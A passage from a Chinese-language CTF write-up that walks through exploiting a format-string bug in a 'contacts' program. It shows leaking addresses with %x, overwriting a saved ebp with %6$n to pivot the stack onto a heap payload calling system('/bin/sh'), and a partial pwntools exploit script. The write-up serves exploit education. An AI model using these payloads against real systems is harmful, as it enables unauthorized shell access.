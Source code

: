 ```
payload = %11$x+p32(system)+‘AAAA’+p32(binsh)
```

再次创建contacts记录，在description字段输入payload。其中，%11$x是用来泄漏该description保存地址的，为什么是11前面讲过了；而后面的部分与栈溢出时布置参数的方式很像，一会儿我们就通过堆栈互换，将esp指向这里，从而调用system。其实，%11$x也可以放到p32(binsh)后面，但因为我这里的system调用地址的最后1字节是”x00”，如果将%11$x放到最后，则printf由于截断就不会打印出description保存地址了。

此外，由于此时我们已经录入两个contact，故在利用程序的display功能打印数据时要考虑这个因素。

**3、利用跳板执行堆上的payload**

堆上的payload已经安排好了，但如何才能执行到呢？

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010af4d616024013a1.jpg)

这里就要%$n出场了，利用它将payload地址写到栈上，从而实现堆栈互换。上图是存在格式化字符串漏洞的printf代码即将运行前的现场。其中，右下角栈视图红色框中是偏移6的位置，指向了下面紫色框，而这个紫色框是上层函数的ebp，本来指向的是再上层函数（也就是main函数）的ebp，但我们希望让其指向堆中的payload。这样，当紫色框中的地址被载入ebp时，也就是main程序返回时，就可以通过leave指令实现堆栈互换，从而执行堆中的payload了。这里有点绕，偏移6处改写的是紫色框中的地址，而这个地址真正用到时，是main函数返回时，也就是我们选择contact的功能5时。

leave指令相当于

```
mov esp,ebp
pop ebp
```

这两条指令，也就是将esp指向ebp的位置。经过调试可知，这里的leave指令是将esp指向了（ebp+4）的位置，因此在第三次创建contact记录时，我们插入如下description：

```
%(int(payload地址-4,16))x%6$n
```

其表示，将打印出来的字符数，即int(payload地址-4,16)写入偏移6指向的ebp处，即上图中的紫色框处（将原先指向上层函数的地址改成指向堆中payload地址）。这样，当我们接下来选择功能5退出contact程序时，在执行leave指令时，会实现堆栈互换，从而将esp指向了堆中的payload，结果如下图所示。当执行ret指令时，要返回的地址，也就是esp指向的地址就是我们布置的system的调用地址。

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013be938bbd1b9f4cb.png)

具体代码如下：

```
p = process('./contacts')
print "----------1 fmtstr : leak address----------"
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("aaaaaa")
print p.recvuntil("No: ")
p.sendline("111111")
print p.recvuntil("description: ")
p.sendline("1000")
print p.readline()
p.sendline("pppp.%31$x")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
description = p.recvuntil("&gt;&gt;&gt; ").split('Description:')[1].split('Menu')[0].strip()
systemOffset   = 0x3ad00 
libcretOffset  = 0x1870e
binshOffset    = 0x15c7e8
libcretAddress = int(description.split('.')[1], 16)
binshAddress   = libcretAddress - (libcretOffset - binshOffset)
systemAddress  = libcretAddress + (systemOffset - libcretOffset)
print "----------2 fmtstr : insert payload----------"
payload = "xxxxx.%11$x" + p32(systemAddress) + "AAAA" + p32(binshAddress)
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("bbbbbb")
print p.recvuntil("No: ")
p.sendline("222222")
print p.recvuntil("description: ")
```